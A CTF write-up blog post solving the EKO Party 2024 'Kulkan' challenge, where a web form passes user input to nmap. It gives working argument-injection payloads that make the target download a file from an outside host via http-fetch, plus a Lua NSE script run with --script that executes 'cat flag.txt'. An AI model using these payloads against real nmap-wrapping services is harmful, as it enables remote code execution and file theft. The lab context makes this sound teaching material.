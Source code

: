 +++
date = '2024-12-02T17:11:00-03:00'
draft = false
title = 'Kulkan Writeup - EKO Party CTF 2024'
tags = ['writeup', 'ctf', 'command-injection']
+++

Hi! I hope this finds you well on the other side of the screen :) 
TLDR; if you just want to focus on the write-up, you can skip the context section ;) 

## Context

This is my first write up, and also my first post on my site, so I would like to provide some context. My name is Julian, I work as a cybersecurity engineer at a payments startup. I have always enjoyed offensive cybersecurity and penetration testing, but never really focused on it until earlier this year. And as part of this journey, I also started playing CTFs.

This month I had the opportunity to help at the Eko Party Cyber Security Conference in Buenos Aires, Argentina (where I live). It's the biggest cybersecurity conference in Latin America.
The conference was amazing, there were a lot of great talks and the energy of the people there was amazing. I really enjoyed it.
Like almost every cybersec conference, it had a CTF! So of course I signed up. I signed up as a team with my coworkers, but they couldn't make it to the conference, and since they were working while I was there, they didn't have a lot of time to participate in the CTF remotely. 
So since I was on my own and spent most of the day at the conference bouncing between amazing talks, I didn't have a lot of time to focus on the CTF. Anyway, I really enjoyed one of the challenges, so I thought it was a great excuse to write my first post. So here we are.

As I said, I'm just starting out on the "offensive" side of cybersecurity, so I'm writing this as I'd like to be explained if I were on the other side of the screen. Although I have no doubt that anyone reading it, regardless of their expertise, will find something useful here.

P.S. Big thanks to my coworkers for covering for me while I was away at the conference!

## Hands on

This is the challenge. We have a web application where our task is "see if you can find a way to **cat** the flag". They give us a URL of an instancer that gives us 2 minutes to find the flag, but for testing and finding the vulnerability, they give us a zip with the source code.

![](/kulkan1.png)

This is what the instancer looks like:

![](/kulkan2.png)

The downloaded code has a python application and a docker file. So I build the docker image, run it, and when we access the provided URL we find a web application like this:

![](/kulkan3.png)

It asks for a target (hostname/IP) and we can choose a command: ping, dig or nmap.

So it's kind of obvious that we should try to find some kind of command injection here to cat the flag.

I started with the "ping" and "dig" commands. I tried a bunch of different command injection payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection), but none of them worked. I also tried some of these payloads with the nmap command, also with no result. 

At this point I started to think it wasn't the usual command injection, so I started reading documentation about the options and flags of these commands. 

Meanwhile, being a bit curious, I opened the python file running the server for the challenge and found that the code used the `shlex.split()` method to sanitize the command before executing it. 
After some research, I found out that this is a very safe way to execute commands through Python. 
I'm a Python developer, so this ended up being useful to learn. And it also confirmed my theory that this was not a common command injection vulnerability. 
(Some may think it was cheating to see the code since it was supposed to be a black-box challenge, but in my defense, looking at the code only confirmed the theory I already had).

Did some research on the options and flags for each command. Didn't find anything useful for `ping` and `dig`. When I started to do some research for the `nmap` command, I remembered the `--script` flag that allows us to run some custom scripts with nmap on the target host. So I thought maybe there was already a script that could help me. 

After reading the [Nmap Scripts Doc](https://nmap.org/nsedoc/scripts/) I found that the [http-fetch](https://nmap.org/nsedoc/scripts/http-fetch.html) script might be useful.
This script allows us to retrieve files from servers. 

The first thing I did was try to use this script from the challenge web application. 
Since I was running it locally, I started a Python http server locally:

![](/kulkan4.png)

and started ngrok:
`ngrok http 127.0.0.1:9000`.

And executed the `nmap` command with the payload:
```
--script http-fetch --script-args http-fetch.url=test.txt,http-fetch.destination=/tmp/test e52d-181-164-0-217.ngrok-free.app 
```

And it worked!

![](/kulkan5.png)

But when I opened the downloaded file...

![](/kulkan6.png)

It wasn't what I expected ("this is a test file"). Instead, it downloaded the ngrok warning page. 
So, looking for alternatives, I ended up hosting the file in a public repo on Github, and it worked as expected!

Ok, so now we can upload files to the server... but what can we do with them? 
After some research, re-reading the [Nmap Scripts Doc] (https://nmap.org/nsedoc/scripts/), I didn't find anything useful...
But after a while I had an idea... I can write my own Nmap NSE script to catch the flag!

One important thing to know is whether it is possible to run nse scripts that are not stored in the nmap scripts folder. And yes, it is:

![](/kulkan7.png)

So I started reading the [Nmap script writing tutorial](https://nmap.org/book/nse-tutorial.html) and with that and a lot of help from ChatGPT I ended up with this NSE script:

``` lua
-- Define the description and category
description = [[
  This script reads the content of a file called 'flag.txt' in the current directory.
]]
categories = {"discovery", "intrusive"}

-- Import necessary libraries
local stdnse = require("stdnse")

-- Define the rule function to specify when this script should run
hostrule = function(host)
  return true  -- Always run on specified target
end

-- Define the main action function
action = function(host)
  -- Execute a command to read the file content
  local file = io.popen("cat flag.txt", "r")
  if not file then
    return "Error: Could not read file"
  end

  -- Read file content
  local content = file:read("*a")
  file:close()

  if content then
    return "flag.txt content:\n" .. content
  else
    return "Error: No content found in flag.txt"
  end
end
```

And hosted it in the Github repository I created earlier.

So now we have everything ready, we just need to try it out.

First, I downloaded the nse script into the target as we did before.

![](/kulkan8.png)

In the scan result we can get the full location where it was downloaded. So with the full location of our nse script we can now run it:
```
nmap www.google.com --script /tmp/flag-reader/185.199.111.133/443/jstrah00/expose-files/master/%2fjstrah00%2fexpose-files%2fmaster%2fflag-reader.nse
```
(when running it in the web application, we omit the `nmap`)

And it worked!

![](/kulkan9.png)

So now we replicate this in the "production environment" and we have our flag :)

## Conclusion
This was a really fun challenge. In my opinion it is a bit hard to be classified as easy as it is. 
As a person just starting out in CTFs, it was the first time I had to build a "custom" script to solve one, and I really liked the challenge. 
I learned a lot from it, especially these key points:
- Using `shlex.split()` is a great way to safely execute commands in Python.
- Ngrok is not always the best way to expose files. 
- Now I can write my own custom NSE scripts!
- Nmap is POWERFUL.

So that was it! I hope you enjoyed reading this and learned something new.
If you have any questions, comments, or anything else you want to discuss, feel free to contact me!

Thanks for reading! Have a nice day!
